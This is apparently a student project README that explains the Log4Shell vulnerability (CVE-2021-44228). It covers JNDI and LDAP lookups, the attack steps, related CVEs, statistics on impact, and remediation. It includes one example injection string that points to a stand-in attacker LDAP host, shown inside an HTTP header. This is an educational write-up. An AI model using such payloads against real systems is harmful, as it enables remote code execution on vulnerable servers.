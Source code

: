 
# 🚨 Log4Shell: CVE-2021-44228 🚨



## ❓ What is Log4Shell?

The Log4Shell attack was a widespread Java exploit targeting a common logging package (Log4j) for remote code execution. It leveraged a critical vulnerability in the Log4j library, enabling attackers to execute arbitrary code remotely via crafted log messages. Despite the ubiquity of Log4j in various software frameworks and applications, the severity of this vulnerability was rated with a CVSS score of 10, indicating its critical nature.

### Why is it so important
- A popular Java library for logging error messages in applications.**That’s the irony!!!**
- Attackers can exploit the vulnerability using text messages to control a computer remotely. 
- Everyone is using it and there is no fix -> CVSS Score of **“10” CRITICAL**
- The ease of exploiting the vulnerability compounds its impact. The Log4j library controls how applications log strings of code and information. The vulnerability enables an attacker to gain control over a string and trick the application into requesting and executing malicious code under the attacker’s control. 
- Log4j logs messages from software and searches for errors afterward. The data range is broad, from basic browser and web page information to technical details about the system Log4j 2 runs on.
- Not only can the Log4j library create simple logs, but it can also execute commands to generate advanced logging information. It can also communicate with other sources, such as internal directory services.

## 📚 Background

Log4j, a Java-based logging utility, became the focus of security concerns due to its support for lookup syntax that inadvertently allowed for remote code execution through the Java Naming and Directory Interface (JNDI). This vulnerability, stemming from JNDI lookups, enabled attackers to control Log4j's log message processing, leading to the execution of malicious code.
Log4j is a Java based logging utility.
Log4j supports the lookup syntax for better string formatting. For example,
```
String lookup = "${java:os}";
logger.info("App started in OS: {}",lookup);
```
Done by implementing the corresponding Lookup class.
`16:44:47.542 [main] INFO  log4j logger - App started in OS: Mac OS X 13.3.1, architecture: aarch64-64`

Next question that arises : Is the string formatting main cause of vulnerability?

- Not really. The lookups are all predefined lookup strings. You cannot do any other things.
- But the story is different with JNDI.The Log4Shell vulnerability lies in the lookup through Java Naming and Directory Interface (JNDI).

## 🕵️‍♂️ The Vulnerability Explained
**Java Naming and Directory Interface (JNDI)**: 
Provides an API for applications to interact with various directory services, facilitating the lookup of remote objects. It's this mechanism that Log4Shell exploits.
![Name1](Images/image3.png "name1")
- The Java API for naming and directory service. 
- If you have a database connection named `“java:MySqlDS”` in your Java environment.

- Other java processes on the same Java environment can lookup the connection:
```
		Object datasourceRef = context.lookup(“java:MySqlDS”);
		DataSource ds = (DataSource) datasourceRef;
		conn = ds.getConnection();
```
- Also supports DNS lookups: `${jndi:dns:cmu.edu}` to log statistics about DNS lookup.
- This is the main reason why log4j accepts JNDI. Easy to fetch and log some printable objects.The JNDILookup plugin is added to the log4j package in issue LOG4J2-313, in 2013 (version 2.0-beta9)
- JNDI has a number of service provider interfaces (SPIs) that enable it to use a variety of directory services.
![Name1](Images/image6.png "name1")
**Danger! LDAP and RMI support Remote Code Execution.**
**LDAP : Lightweight Directory Access Protocol**
Through the use of JNDI with LDAP, attackers could manipulate the lookup process to execute remote code.
- Can use JNDI + LDAP to find an object containing the needed data.
- ldap://localhost:3**/o=BusinessObjectId allows application to find and invoke the BusinessObject remotely from an LDAP server running either on localhost or remote machine
- LDAP server either running on different server (in protected zone), or potentially anywhere on the Internet.
- If attacker can control the JNDI URL, they can cause the application to load and execute arbitrary Java code.

![Name1](Images/image5.png "name1")

**LOG4J JndiLookup Plugin**
Enables retrieval of variables via JNDI, where specially crafted lookup strings could trigger the vulnerability.
- “The JndiLookup allows variables to be retrieved via JNDI. By default the key will be prefixed with java:comp/env/, however if the key contains a ":" no prefix will be added.”
- `${jndi:ldap://attacker.server:1339/evil}` : could be a HTTP header like User-Agent, which commonly gets logged.

## 🎯 Attack Methodology

The attack involves several steps, from the initial injection of the malicious JNDI lookup string into a vulnerable application, to the execution of arbitrary code hosted on the attacker's server. This process could lead to various malicious outcomes, such as establishing reverse shells or executing unauthorized commands on the affected server.
![Name1](https://github.com/paras98/Log4Shell/blob/main/Images/Presentation1.gif)
![Name1](Images/image7.png "name1")

## 🎥 Video Demonstration
[![Log4Shell Demo Minecraft](Images/demo.png)](https://drive.google.com/file/d/1nSHfFkhpL-S6hU8LwZ-DDU9vICbSOGzM/view?usp=sharing)


## 💥 Impact and Mitigation

The widespread use of Log4j resulted in a significant impact across numerous systems and applications, with several CVEs issued to address different aspects of the vulnerability. Efforts to mitigate the issue included updating Log4j to a secure version, disabling certain features, and applying patches as they became available.

### Some CVEs 
- **CVSS Base Score:10 (12/10/2021)**
- CVE-2021-45046 enables hackers to send malicious JNDI lookups to systems that use certain non-default settings, even if those systems have fixed Log4Shell. Present in Log4j versions 2.15 and below. 

- **CVSS Base Score:5.9 (12/18/2021)**  
- CVE-2021-45105 enables hackers to launch denial-of-service attacks by sending malicious messages to Log4j. Present in Log4j versions 2.16 and below. 

- **CVSS Base Score:6.6 (12/28/2021)**
- CVE-2021-44832 is a remote code execution vulnerability. This flaw is less critical than Log4Shell because hackers need to gain elevated permissions before they can exploit it. Present in Log4j versions 2.17 and below.  

### Stats
- More than 35,000 Java packages, amounting to over 8% of the Maven Central repository

- As of December 16, 2021, 35,863 of the available Java artifacts from Maven Central depend on the affected log4j code

![Name1](Images/image19.png "name1")

**Impact on Human Workforce**
- Over 800,000 exploitation attempts were detected in the first 72 hours after log4j became public implying an urgent response from security team all around the world disrupting all the security engineers.
- This also implies a significant burden and stress on the developers and maintainers of Log4j and other open source projects. 

**Monitory Impact**
- The most affect organizations where evaluated over $100M.
- Most effect industry was education  services.

**Keeping at bay**
- In November 2022, Tenable reported that 29% of the assets still vulnerable to Log4Shell were “recurrences,” meaning they were patched, but the flaw reappeared.

## Time Line 

![Name1](Images/timeline.png "name1")

## Fix & Remediation
1. Upgrade to the latest version of log4j. (At least >=2.15.0)
What did this fix had to offer 

![Name1](https://github.com/paras98/Log4Shell/blob/main/Images/Presentation2.gif)

2. Disable Lookup feature in log4j. (-Dlog4j2.formatMsgNoLookups = true)
3. Upgrade Java Version. (Untrust LDAP object URL by default)
4. Input Filter & Validation
5. Upgrade WAF and RASP rules
6. Block or Monitor suspicious traffic when internal server is visiting unknown eternal IP


## 🤔 Reflections on Log4Shell

The incident raised questions about the security of open-source frameworks and the responsibilities of developers and maintainers in ensuring the security of their software. It highlighted the importance of cautious feature support in security-critical software and the need for prompt and effective vulnerability management.


**Authors:** Aditya Sudhansu, Ziheng Yan, Jun Wen, Paras Saxena, Trevor Kann


